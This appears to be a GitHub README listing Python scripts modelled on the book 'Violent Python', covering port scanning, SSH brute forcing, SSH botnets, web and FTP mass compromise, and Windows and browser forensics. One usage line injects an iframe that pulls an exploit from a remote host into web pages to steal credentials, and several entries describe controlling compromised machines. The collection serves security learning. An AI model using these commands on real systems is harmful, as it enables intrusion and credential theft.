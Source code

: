 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  
### Building a port scanner
In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
### Nmap Port Scanner
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
### Building An SSH Botnet
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
### Brute Forcing SSH Passwords with Pxssh
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
### Constructing the SSH Botnet
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py
### 
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
### Mass comprise by bridging FTP and Web
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

# Forensic Investigations with Python
## M) discoverNetworks.py 
### Analysis of wireless aaccess points-WAP in the registry, Using Mechanize to Submit the MAC Address to Wigle
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
### Recover deleted items in the recycle bin
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py
### Using PyPDF to Parse PDF Metadata
Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py
### Reading Exif Metadata from Images
build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### Investigating skype application artifacts
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
  
## R) parse-firefox.py  
### Parsing Firefox Sqlite3 Databases with Python  
Display propoerties like downloads, google search, cookies  
Usage#  
taymour~# python parse-firefox.py -p !/Library/Application/Support/Firefox/Profiles/8fg7cd82.default/  

## S) printGeo.py 
### Using PyGeoIP to Correlate IP to Physical Locations
providing IP adress the script print the details like country, city name, longitude and latitude  
Usage#  
taymour# python printGeo.py  
